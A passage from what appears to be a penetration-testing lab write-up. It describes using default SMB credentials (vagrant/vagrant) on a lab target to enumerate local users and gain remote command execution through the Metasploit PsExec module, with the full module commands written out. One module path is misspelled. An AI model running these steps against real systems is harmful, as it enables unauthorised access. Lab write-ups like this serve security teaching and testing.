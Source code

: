<br>


##### **Result:** 
We successfully obtained valid SMB login credentials with the username "vagrant" and password "vagrant". In our case, these credentials also provide access to the underlying Windows system. 

This is demonstrated by running another exploit using the Metasploit module `auxiliary/scanner/smb/smb_enumusers`. This module leverages valid SMB credentials(*Fig. 3*) to enumerate local user accounts stored in the target machine’s Security Account Manager (SAM) database.


## *PsExec Exploitation*

Using the credentials we obtained, we can exploit a known technique to execute remote commands on the target system. Specifically, we use **PsExec**, a legitimate Windows utility that allows administrators to run commands remotely on other machines. To leverage PsExec, valid credentials for a local administrator account on the target system are required. Once successfully exploited, PsExec can be used by a **penetration tester** to execute arbitrary code and potentially escalate access to other users on the system. The service runs on port 445, which was confirmed to be open during the earlier reconnaissance phase.

##### **Exploit execution:**
The exploitation is done by using the "PsExec module", which is `exploit/windows/smb/psexec`. 

  * **Loading the module:** Within Metasploit we load the module `use exloit/winbdows/smb/psexec`.
  
  * **Target setup:**  Defining IP address of target machine: `set RHOSTS 10.0.2.4`.
  
  * **Port setup**: Configuring the port on which the service runs:  `set RPORT 445`.
  
  * **Credentials setup:** Configuring the username and password for the remote connection:`set SMBUser vagrant` & `set SMBPass vagrant`.
  
To run the exploit, use `run`.

![*Fig. 4*](images/ps_exec_output.png)
